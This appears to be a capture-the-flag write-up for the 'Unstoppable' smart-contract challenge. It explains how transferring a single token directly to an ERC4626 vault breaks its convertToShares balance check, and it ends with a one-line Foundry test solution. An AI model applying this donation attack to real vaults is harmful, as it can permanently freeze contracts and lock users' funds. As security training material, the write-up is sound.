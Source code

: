 # Unstoppable

One contract was inherited and passed only the address for interactions and the other in the constructor is expanded for the current contract and complements its logic.
```
 constructor(
        ERC20 _asset,
        string memory _name,
        string memory _symbol
    ) ERC20(_name, _symbol, _asset.decimals()) {
        asset = _asset;
    }

function convertToShares(uint256 assets) public view virtual returns (uint256) {
        uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.

        return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
    }
```

totalSupply - We did a mint and a deposit, so totalSupply here is 1,000,000. That is the number of “second” tokens released into the vault via deposit.

totalAssets - returns the asset.balance of this, we specified the address for the asset in the vault constructor and here we find out how many main tokens are in the vault, if we add them to it

```
if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```
Before
        //balanceBefore 1 000 000 - main tokens here
        //totalSupply - issued shares via deposit - 1 000 000
After
        //If you send 1 token directly to the address it will be:
        //convertToShares(totalSupply) - 999,999 | balanceBefore - 1,000,001

```
Solution:
    function test_unstoppable() public checkSolvedByPlayer {
        token.transfer(address(vault), 1);
    }
```

